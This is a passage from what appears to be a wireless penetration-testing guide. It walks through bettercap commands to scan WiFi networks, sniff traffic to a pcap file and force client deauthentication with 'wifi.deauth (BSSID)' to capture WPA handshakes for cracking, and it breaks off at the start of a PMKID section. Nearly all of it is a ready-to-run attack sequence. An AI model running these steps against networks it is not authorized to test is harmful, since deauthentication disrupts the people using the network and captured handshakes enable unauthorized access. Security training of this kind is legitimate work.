 ```
bettercap -iface (interface)
```

![](<../../.gitbook/assets/image (663).png>)

We begin scanning for networks

```
wifi.recon on
```

We can also show the WiFi Manufacturer of the AP

```
set wifi.show.manufacturer true
```

```
wifi.show
```

![](<../../.gitbook/assets/image (269).png>)

```
set wifi.recon.channel (Channel)
```

```
set net.sniff.verbose true
```

```
set net.sniff.output (SSID).pcap
```

```
set net.sniff on
```

```
events.stream on
```

At this point we can again, simply wait for a device to connect to the network to obtain the handshake, or we may deauthenticate the network.

```
wifi.deauth (BSSID)
```

Once we obtain the handshake, we will see the notification in our event stream

![](<../../.gitbook/assets/image (645).png>)

### PMKID

The PMKID method is much simpler method. Just like before, we find our interface, enable monitor mode, start bettercap with that interface.

We begin scanning for networks
